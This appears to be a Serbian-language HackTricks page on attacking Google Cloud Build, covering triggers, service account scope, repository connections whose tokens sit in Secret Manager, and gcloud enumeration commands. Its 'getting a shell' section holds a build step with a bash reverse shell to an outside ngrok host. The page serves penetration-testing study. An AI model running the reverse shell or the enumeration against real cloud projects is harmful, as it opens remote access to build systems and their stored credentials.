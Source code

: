 # GCP - Cloud Build Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Google Cloud Build je upravljana CI/CD platforma koja **automatizuje procese izgradnje softvera** i puštanja u rad, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava programerima da automatski izgrade, testiraju i implementiraju kod dok pruža fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build okidač je **povezan sa Cloud repozitorijumom ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nisam mogao da vidim način da ukradem Github/Bitbucket token odavde ili iz Cloud repozitorijuma jer kada se repozitorijum preuzme, pristupa se preko [https://source.cloud.google.com/](https://source.cloud.google.com/) URL-a i Github nije pristupačan klijentu.
{% endhint %}

### Događaji

Cloud Build može biti okidač ako:

* **Pritisak na granu**: Navedite granu
* **Pritisak novog taga**: Navedite tag
* **Pull zahtev**: Navedite granu koja prima PR
* **Ručno pozivanje**
* **Pub/Sub poruka**: Navedite temu
* **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan tajnom

### Izvršenje

Postoje 3 opcije:

* Yaml/json **specifikacija komandi** za izvršenje. Obično: `/cloudbuild.yaml`
* Jedna koja se može navesti "inline" u web konzoli i u CLI
* Najčešća opcija
* Relevantna za neautentifikovan pristup
* **Dockerfile** za izgradnju
* **Buildpack** za izgradnju

### Dozvole SA

**Servisni nalog ima opseg `cloud-platform`**, tako da može **koristiti sve privilegije.** Ako **nije naveden SA** (kao kada se podnosi), **podrazumevani SA** `<projekat-broj>@cloudbuild.gserviceaccount.com` će biti **korišćen.**

Podrazumevano nisu date nikakve dozvole, ali je prilično jednostavno dati neke:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Odobrenja

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršenje izgradnje** (podrazumevano onemogućeno).

### Povezivanja & Repozitorijumi

Povezivanja se mogu kreirati preko:

* **GitHub-a:** Prikazaće se OAuth prozor koji traži dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Menadžera tajni.**
* **GitHub Enterprise-a:** Zatražiće instalaciju **GithubApp**-a. Autentifikacioni token sa vašeg GitHub Enterprise hosta će biti kreiran i sačuvan u ovom projektu kao tajna **Menadžera tajni.**
* **GitLab / Enterprise-a:** Potrebno je **pružiti API pristupni token i čitati API pristupni token** koji će biti sačuvani u **Menadžeru tajni.**

Kada se generiše veza, možete je koristiti da **povežete repozitorijume kojima Github nalog ima pristup**.

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Imajte na umu da su repozitorijumi povezani ovim metodom **dostupni samo u okidačima koji koriste 2. generaciju.**
{% endhint %}

### Poveži repozitorijum

Ovo nije isto kao **`povezivanje`**. Ovo omogućava **različite** načine za **pristup Github ili Bitbucket** repozitorijumu ali **ne generiše objekat povezivanja, već generiše objekat repozitorijuma (prve generacije).**

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Skladište

Ponekad će Cloud Build **generisati novo skladište za čuvanje datoteka za okidač**. To se na primer dešava u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je skladišni bucket pod nazivom [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) kako bi se čuvala `.tgz` datoteka sa fajlovima koji će biti korišćeni.

### Dobijanje shell-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeracija

Možete pronaći **osetljive informacije u konfiguracijama izgradnje i zapisnicima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Neautentifikovan pristup

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
